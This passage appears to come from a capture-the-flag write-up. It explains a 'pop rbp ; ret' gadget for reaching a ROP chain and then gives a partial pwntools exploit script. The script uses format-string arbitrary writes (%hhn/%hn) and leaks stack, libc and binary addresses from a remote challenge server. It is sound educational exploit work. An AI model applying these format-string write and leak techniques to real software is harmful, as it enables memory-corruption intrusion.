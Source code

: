 Now let's discuss the significance of `pop * ; ret`. Since our shellcode is below the current return pointer, it would practically never be executed unless we `ret` into it. However, simply calling `ret` would return into (SAVED RET POINTER) + 8, where the overwritten 0x00000002 lies. For obvious reasons that will crash the program and again our payload isn't executed. So we need to not only remove a value from the top of the stack but also return into next one. `pop rbp ; ret` serves as the perfect candidate here.
Once we overwrite SAVED RET POINTER our code execution will be redirected to `pop rbp`, that instruction will remove the value at the top of the stack ( which happens to be 0x00000002 ), the `RSP` now points to the start of our ROP chain. The subsequent `ret` instruction would just go about executing it.

So finally, here's the pwn script you have been waiting for
```py
from pwn import *

# [========== PWNTOOLS BOILERPLATE CODE ==========]
elf = ELF('./challenge')
context.binary = elf
context.log_level = 'Critical'
context(terminal=['tmux', 'split-window', '-h'])
libc = elf.libc
# p = elf.process()
p = remote('34.70.212.151', 8003)
libc = ELF('./libc.so.6')

# [========= PREPARE NECESSARY FUNCTIONS =========]
def arb_write_single(where, what):
    p.sendline(b'2')
    end = p64( where )
    end += b'****'
    payload = b''
    if what != 0:
        payload += ('%{}c'.format(what)).encode()
    payload += b'%8$hhn'
    payload += b'*' * (28 - len(payload) - len(end))
    payload += end
    p.sendafter(b'Enter input\n>> ', payload)
    p.recvuntil(b'3. Exit\n>> ')

def arb_write_double(where, what):
    p.sendline(b'2')
    end = p64( where )
    end += b'****'
    payload = b''
    if what != 0:
        payload += ('%{}c'.format(what)).encode()
    payload += b'%8$hn'
    payload += b'*' * (28 - len(payload) - len(end))
    payload += end
    p.sendafter(b'Enter input\n>> ', payload)

# [============== LEAK VIA OPTION 1 ==============]
p.sendlineafter(b'>> ', b'1')
p.recvuntil(b'0x')
stack_leak = int( p.recvuntil(b' ').strip(), 16 )
libc_leak = int( p.recvline().strip(), 16 )

# [=========== LEAK VIA 13TH ARG ============]
p.sendlineafter(b'>> ', b'2')
p.sendlineafter(b'>> ', b'%13$#lX*********AAAABBBB****')
binary_leak = int( p.recvuntil(b'*').strip()[:-1], 16 )

# [============= CALCULATE BASE ADDR =============]
libc_base = libc_leak - libc.symbols['fgets']
```